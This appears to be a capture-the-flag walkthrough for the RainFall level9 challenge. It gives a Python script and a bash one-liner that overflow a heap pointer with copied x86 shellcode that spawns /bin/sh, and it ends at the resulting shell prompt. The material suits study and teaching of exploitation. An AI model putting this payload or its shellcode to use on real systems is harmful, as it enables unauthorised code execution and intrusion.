 **If I put a shellcode there?**  
_Hum... so smart you begin to be smart..._  

Let's try it!  

I will copy an existing shellcode on [shellstorm](https://shell-storm.org/shellcode/index.html)  
and will build my payload using python.  

```python
import sys
import struct

address_where_arg_is_copied = 0x804a00c
offset_to_reach_pointer_in_N_instance = 108

hardcoded_shellcode = "\x83\xc4\x18\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

# Dummy is here to fill the buffer to make my payload 108 bytes long.
# First get how many bytes is needed to fill by removing size
# of shellcode and size of address at start of payload.
# Use it to multiply a random char to fill.
dummy = "-" * (offset_to_reach_pointer_in_N_instance - len(hardcoded_shellcode) - 4)

payload = struct.pack("<I", address_where_arg_is_copied + 4) + hardcoded_shellcode + dummy + struct.pack("<I", address_where_arg_is_copied)

sys.stdout.write(payload)
```

Yeah I think it is okay.  
Last step is to launch and praise for getting a shell...  

So you can copy it into `/tmp/random_file_name.py` and:  
```bash
./level9 $(python /tmp/random_file_name.py)
```

or...
```bash
level9@RainFall:~$ ./level9 $(python -c 'import sys,struct; sys.stdout.write(struct.pack("<I", 0x804a010) + "\x83\xc4\x18\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x6a\x17\x58\x31\xdb\xcd\x80\x6a\x2e\x58\x53\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "-"*33 + struct.pack("<I", 0x804a00c))')
```

**AAANNNNNNNNNDDDDDD...**
Guess what, the pointers are dereferenced, the shellcode executed, and the program finally print...
```bash
$ 
```

yes... it's a shell promt you got it!

